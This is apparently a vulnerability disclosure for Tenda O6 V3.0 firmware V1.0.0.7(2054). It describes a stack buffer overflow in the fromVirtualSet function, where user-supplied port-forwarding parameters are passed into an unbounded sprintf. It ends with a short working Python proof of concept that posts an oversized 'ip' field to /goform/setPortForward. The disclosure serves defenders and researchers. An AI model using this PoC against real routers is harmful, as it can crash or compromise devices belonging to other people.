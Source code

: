 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-3861.html

## Affected version

O6 V3.0 V1.0.0.7(2054)

## Vulnerability details

In the O6 V3.0 V1.0.0.7(2054) firmware has a stack overflow vulnerability in the `fromVirtualSet` function. The `v2, v3, v4, v6` variable receives the `ip, localPort, publicPort, app` parameters from a POST request. However, since the user can control the input of these parameters, the statement `sprintf((char *)v26, "0;%s;%s;%s;%s;%s;%s", v4, v3, v2, (const char *)v27, "1", v6);` can cause a buffer overflow. The user-provided  `ip, localPort, publicPort, app` can exceed the capacity of the `v26` array, triggering this security vulnerability.

![image-20240801132435207](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240801132435207.png)

![image-20240801132425406](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240801132425406.png)

## POC

```python
import requests

ip = "192.168.84.101"
url = "http://" + ip + "/goform/setPortForward"
payload = b"a"*2000

data = {"ip": payload}
response = requests.post(url, data=data)
print(response.text)
```

